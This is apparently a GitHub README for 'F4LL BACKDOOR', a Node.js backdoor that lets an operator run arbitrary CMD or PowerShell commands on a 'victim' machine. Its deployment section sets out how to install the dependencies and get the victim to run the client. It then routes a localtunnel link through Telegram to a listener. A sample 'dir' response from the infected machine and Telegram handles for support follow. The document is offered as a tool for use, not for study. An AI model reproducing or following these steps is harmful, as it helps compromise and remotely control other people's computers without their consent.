 
# ``⚡ F4LL BACKDOOR ⚡``

A backdoor than you can run any CMD/Powershell commands
Your victim need nodejs or you can compile with nexe.

YOU NEED TELEGRAM


## Contact

[Telegram Channel](https://t.me/chez_f4ll)

[Telegram user](https://t.me/@f4ll_1337)


## Deployment

Installation etc..

```bash
  notepad/nano index.js then change configuration
  npm init
  npm install readline-sync http https express express-param localtunnel simple-exe
  Victim : node index.js OR ./client.exe
  Copy the link you got on telegram
  node listener.js
  Paste your link
  And do some commands
```


## Screenshots

![App Screenshot](https://i.imgur.com/DGHGoa6.png)


## Usage/Examples

``node listener.js``

Link from telegram : https://eiuzud.local.it/

``dir``

Response :  Le volume dans le lecteur C n’a pas de nom.
 Le numéro de série du volume est F839-96BE

 Répertoire de C:\Users\33761\Desktop\Backdoor

26/01/2023  20:07    <DIR>          .
26/01/2023  20:07    <DIR>          ..
25/01/2023  21:12               692 commands.txt
25/01/2023  21:37             1 955 index.js
26/01/2023  20:07                31 install-listener.bat
26/01/2023  20:07                86 installclient.bat
25/01/2023  20:58             2 882 listener.js
25/01/2023  16:11    <DIR>          node_modules
25/01/2023  16:12           286 341 package-lock.json
25/01/2023  16:12               533 package.json
               7 fichier(s)          292 520 octets
               3 Rép(s)  304 961 990 656 octets libres


## Support

For support : @f4ll_1337 on telegram

